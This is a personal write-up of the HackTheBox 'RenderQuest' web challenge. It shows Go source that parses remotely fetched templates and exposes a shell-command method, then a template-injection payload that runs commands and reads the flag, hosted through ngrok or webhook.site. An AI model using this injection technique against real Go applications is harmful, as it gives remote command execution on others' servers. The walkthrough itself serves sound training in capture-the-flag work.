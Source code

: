 
2024-10-02 23:16

Source: #web 
## Reconnaissance

We notice the `go` source code that seems to execute code from remote templates.

```go
if remote == "true" {
		tmplFile, err = readRemoteFile(page)

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	} else {
		tmplFile, err = readFile(TEMPLATE_DIR+"/"+page, "./")

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	}

	tmpl, err := template.New("page").Parse(tmplFile)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}

	err = tmpl.Execute(w, reqData)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}
```

We also notice that there is a method that executes system commands.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```
## Foothold

We can create a template file that executes commands on the server by using go templating code.

> To identify that the backend is using the Go template engine, you can utilize the following payloads:
> 
> - `{{ . }}`: Represents the data structure passed as input to the template.
>     - If the passed data is an object with an attribute, you can use `{{ .Attribute_name_here }}` to leak it.
> - `{{ printf "%s" "printing text" }}`: you can also call print or other methods.
> 
> [(source)](https://www.onsecurity.io/blog/go-ssti-method-research/)

In this case, we can call the method that allows us to execute commands on the server via `{{.FetchServerInfo "command_here"}}`.

First, we need to create a template file that we will serve by setting up our server.
```shell
$ cat exploit.tpl 
{{.FetchServerInfo "ls -lah"}}
```
We set up server in the directory where the template file is located.
``` shell
$ python3 -m http.server 80
```

And set up `ngrok` for outside access as we are not connected through a vpn.
``` shell
$ ngrok http http://localhost:80
```
get the [[ngork]] URL and append our file name to it and add it in the input field of the website 

## Alternate 

instead of using ngork to create the URL we could also use the website https://webhook.site/#!/
click `Edit` on the right hand side of the top ribbon 
change the content to `{{.FetchServerInfo "cat ../flag154d8430d7.txt"}}` and hit save
click `copy` which to the left of `Edit` and click `URL` 
then add this URL in the victim website 

### References
https://app.hackthebox.com/challenges/RenderQuest

walkthrough - 
https://vulnerable.sh/posts/htb_renderquest/
https://henri-demanou.medium.com/htb-renderquest-3fa19d67f58d
https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83 - (uses` webhook.site`)
https://exploit-notes.hdks.org/exploit/web/go-ssti/?source=post_page-----3fa19d67f58d--------------------------------